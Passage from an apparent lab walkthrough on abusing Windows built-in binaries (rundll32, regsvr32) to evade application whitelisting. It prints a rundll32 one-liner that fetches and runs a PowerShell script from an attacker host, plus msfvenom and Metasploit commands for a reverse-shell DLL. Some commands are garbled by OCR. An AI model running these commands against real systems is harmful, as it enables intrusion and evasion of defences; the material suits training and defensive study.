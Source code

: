 In the previous command, we used the **rund1132**.**exe** binary that embeds a JavaScript component, **eval**(), to execute the **calc.exe** binary, a Microsoft calculator.

As we mentioned previously, we can also execute PowerShell scripts using the rund1132.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rund1132.exe.

> **rundll32.exe javascript:”\\..\\mshtml, RunHTMLApplication “;document.write(); new%20ActiveXObject(“WScript.Shell”).Run(“powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString(‘http://AttackBox\_IP/script.ps1');");**

As a result of the previous execution, a copy of the **script.ps1** downloaded into memory on the target machine.

- - -

#### **Bypassing Application Whitelisting**

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. This task focuses on LOLBAS examples that are used to bypass the Windows application whitelisting.

**Regsvr32**

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. The regsvr.exe binary is located at:

• C:\\Windows\\System32\\regsvr32.exe for the Windows 32 bits version

• C:\\Windows\\SysWOW64\\regsvr32.exe for the Windows 64 bits version

Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting. According to **Red Canary reports**, the **regsvr32.exe** binary is the third most popular ATT&CK technique. Adversaries leverage **regsvr32.exe** to execute native code or scripts locally or remotely. The technique used in the **regsvr32.exe** uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting.

Let’s try to apply this technique in real life. First, we need to create a malicious DLL file using **msfvenom** and set up our **Metasploit** listener to receive a reverse shell. Note that we will be creating a malicious file that works for 32bit operating systems. We will be using the regsvr32.exe Application Whitelisting Bypass technique to run a command on a target system.

> **user@machine$ msfvenom -p windows/meterpreter/reverse\_tcp LHOST tune LPORT 443 -f dll -a x86 liveofftheland.dll**

> **Payload size: 375 bytes**

> **Final size of dll file: 8704 bytes**

> **user@machine$ user@machine$ msfconsole -q**

> **msf6 > use exploit/multi/handler**

> **\[\*\] Using configured payload generic/shell\_reverse\_tcp**

> **msf6 exploit (multi/handler) > set payload windows/meterpreter/reverse\_tcp**
